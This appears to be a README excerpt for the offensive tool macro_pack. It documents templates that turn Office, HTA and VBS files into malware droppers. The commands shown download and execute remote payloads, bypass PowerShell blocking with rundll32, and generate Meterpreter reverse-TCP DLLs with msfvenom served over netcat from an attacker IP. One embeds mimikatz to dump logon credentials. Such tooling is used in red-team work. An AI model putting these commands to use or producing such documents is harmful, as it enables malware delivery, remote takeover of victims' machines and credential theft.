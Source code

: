 ### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run:  
  -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc```
 
 
### DROPPER_DLL
Download a DLL with another extension and run it using Office VBA.  
-> Example, load meterpreter DLL using Office:  

```batch
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
        
### METERPRETER  
Meterpreter reverse TCP template using MacroMeter by Cn33liz.  
This template is CSharp meterpreter Stager build by Cn33liz and embedded within VBA using DotNetToJScript from James Forshaw.  
Give this template the IP and PORT of listening mfsconsole:  
  -> Example: ```echo <ip> <port> | macro_pack.exe -t METERPRETER -o -G meter.docm``` 
 
This template also generates a  meterpreter.rc file to create the Metasploit handler  
  -> Example: ```msfconsole -r meterpreter.rc``` 


### EMBED_EXE          
Drop and execute an embedded file.   
Combine with --embed option, it will drop and execute the embedded file with random name under TEMP folder.  
 -> Example: ```macro_pack.exe  -t EMBED_EXE --embed=c:\windows\system32\calc.exe -o -G my_calc.vbs```  
 
 
### EMBED_DLL
Combine with --embed option, it will drop and call a function in the given DLL.   
Give this template the name and parameters of function to call in DLL  
-> Example1 : ```echo "main" | macro_pack.exe -t EMBED_DLL --embed=cmd.dll -o -G cmd.doc```  
-> Example2 : ```echo "main log privilege::debug sekurlsa::logonpasswords exit" | macro_pack.exe -t EMBED_DLL --embed=mimikatz.dll -o -G mimidropper.hta```
